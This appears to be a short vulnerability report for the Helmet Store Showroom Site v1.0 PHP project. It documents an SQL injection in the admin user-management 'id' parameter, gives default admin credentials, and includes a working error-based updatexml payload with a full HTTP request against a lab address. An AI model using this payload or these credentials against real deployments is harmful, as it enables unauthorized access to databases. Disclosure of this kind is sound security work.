 # Helmet Store Showroom Site v1.0 by oretnom23 has SQL injection

BUG_Author: HMHYHM

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/15851/helmet-store-showroom-site-php-and-mysql-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /hss/admin/?page=user/manage_user&id=

Vulnerability location: /hss/admin/?page=user/manage_user&id=,id

dbname =hss_db,length=6

[+] Payload:  /hss/admin/?page=user/manage_user&id=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ // Leak place ---> id


```sql
GET /hss/admin/?page=user/manage_user&id=3%27%20and%20updatexml(1,concat(0x7e,(select%20database()),0x7e),0)--+ HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=29mcgvmjo6mqsepd64ra2rlt4v
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/204069852-fd5c5cff-ff32-4acf-845e-e3ff9a27e698.png)
